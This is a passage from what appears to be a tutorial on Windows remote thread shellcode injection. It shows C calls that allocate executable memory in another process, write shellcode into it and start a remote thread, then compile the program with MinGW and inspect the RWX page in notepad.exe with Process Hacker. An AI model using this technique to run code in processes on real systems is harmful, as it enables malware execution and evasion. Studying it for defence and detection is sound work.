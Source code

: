  ```c
 LPVOID remote_process_buffer = VirtualAllocEx(target_process_handle, NULL, sizeof(buf), MEM_RESERVE|MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```
now we should write our shellcode into our allocated memory region using the [WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) function. 
```c
WriteProcessMemory(target_process_handle, remote_process_buffer, buf, sizeof(buf), NULL);
```
after all, it's time to create a thread in the target process and run the shellcode that we previously wrote into a memory page. we use the [CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread) function. we should also pass 0 as the **dwCreationFlags** parameter to run the thread immediately after creation. 
```c
CreateRemoteThread(target_process_handle, NULL, 0,(LPTHREAD_START_ROUTINE) remote_process_buffer,NULL,0, NULL);
```
to compile the code in kali, we use **MinGW**.
```bash
x86_64-w64-mingw32-gcc main.c -o rti.exe
```
we send the output to our windows machine and run it. if we open **process hacker** and take a look at the **notepad.exe** process. in the memory section there is only one memory page with RWX permission which is suspicious. if we open it we can see our shellcode inside it. 
